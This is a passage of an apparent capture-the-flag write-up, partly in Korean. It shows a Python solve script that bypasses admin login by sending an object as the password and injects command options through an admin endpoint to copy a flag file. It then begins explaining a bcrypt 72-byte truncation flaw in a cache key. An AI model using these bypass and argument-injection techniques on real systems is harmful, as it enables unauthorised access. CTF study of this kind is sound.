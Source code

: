 ```py
    assert proc.returncode == 0
    return proc.stdout

bypass_url = "http://asdf.node"

idpw = os.urandom(2).hex()

send_request(bypass_url + "/register", {"username":idpw,"password":idpw})
cookie = send_request(bypass_url + "/login", {"username":idpw,"password":idpw}).split("\n")[8].split(" ")[1]
#print(cookie)
send_request(bypass_url + "/upload", "asdf", cookie, True)
admin_cookie = send_request(bypass_url + "/login", {"username":"admin","password":{"password":"1"}}).split("\n")[8].split(" ")[1]
#print(admin_cookie)
send_request(bypass_url + "/upload", "asdf", admin_cookie, True)
user_path = "./uploads/" + send_request(bypass_url + "/admin", {"options":["./uploads/.","/boot","-S"]}, admin_cookie, False).split(idpw)[0][-17:] + idpw
#print(user_path)
send_request(bypass_url + "/admin", {"options":["-t",user_path,"/flag.txt","-S"]}, admin_cookie, False)

print('HCTF{'+send_request(bypass_url + "/file", {"filename":"flag.txt"}, cookie, False).split("HCTF{")[1].split("}")[0]+'}')
```

##### asdf.txt
```plaintext
asdf
```

### Crypto
#### atko

이 문제의 이름은 okta에서 착안하였습니다. [이 문서](https://trust.okta.com/security-advisories/okta-ad-ldap-delegated-authentication-username/)는 okta의 보안 권고에서 파생된 취약점 분석입니다.

```python
def gen_cache_key(user_id, username, password, salt):
    return bcrypt.hashpw(user_id + username + password, salt)
```

이 함수는 `user_id`, `username`, `password`를 이어 붙여 bcrypt 해시 키를 생성합니다.  
하지만 다음과 같은 제약 조건이 존재합니다.

- 한 사용자 계정의 `username` 길이는 **항상 39바이트**입니다.
- `user_id`는 **32바이트**로 고정되어 있습니다.
- bcrypt는 입력 문자열의 최대 길이가 **72바이트**로 제한됩니다.

따라서 아래와 같이 계산할 수 있습니다.

```
72 - 32(user_id) - 39(username) = 1
```
